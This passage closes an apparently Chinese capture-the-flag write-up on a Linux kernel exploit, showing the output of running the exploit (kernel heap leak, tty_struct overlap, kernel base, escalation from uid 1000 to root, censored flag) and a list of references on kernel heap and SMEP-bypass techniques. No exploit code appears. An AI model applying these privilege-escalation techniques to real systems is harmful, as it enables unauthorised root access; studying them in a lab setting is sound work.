 运行效果如下：

```shell
ivan@ubuntu:~/kernel/meow$ sudo ./start.sh 
Boot took 3.12 seconds

 \\\    /// wWw     .-.    (O))  ((O)\\\    ///   .-.    (O))  ((O) 
 ((O)  (O)) (O)_  c(O_O)c   ||    || ((O)  (O)) c(O_O)c   ||    ||  
  | \  / |  / __),'.---.`,  || /\ ||  | \  / | ,'.---.`,  || /\ ||  
  ||\\//|| / (  / /|_|_|\ \ ||//\\||  ||\\//||/ /|_|_|\ \ ||//\\||  
  || \/ ||(  _) | \_____/ | / /  \ \  || \/ ||| \_____/ | / /  \ \  
  ||    || \ \_ '. `---' .`( /    \ ) ||    ||'. `---' .`( /    \ ) 
 (_/    \_) \__)  `-...-'   )      ( (_/    \_) `-...-'   )      (  
/ $ ./exp
[*] Got a kernel heap leak: 0xffff88800daed000
[*] tty_struct will be allocated at address: 0xffff88800d000000
[*] now page 0x7fb11234c000 is synonymous with tty_struct of fd 4
[*] fops is located at: 0xffffffff81e65800
[*] kernel base: 0xffffffff80e00000
[*] Found current process(pid=1033)'s cred struct 0xffff88800ee56cc0
[*] original uid=1000, gid=1000. now escalating to root
[*] now i am uid=0
flag: zer0pts{*****CENSORED*****}

```



## 参考资料

[1] https://pr0cf5.github.io/ctf/2020/03/09/the-plight-of-tty-in-the-linux-kernel.html
[2] https://nanxiao.me/en/why-doesnt-linux-device-driver-need-to-update-file-position-in-readwrite-functions/
[3] https://cateee.net/lkddb/web-lkddb/HARDENED_USERCOPY.html
[4] https://blog.infosectcbr.com.au/2020/03/weaknesses-in-linux-kernel-heap.html
[5] https://lwn.net/Articles/741878/
[6] https://github.com/pr0cf5/kernel-exploit-practice/tree/master/bypass-smep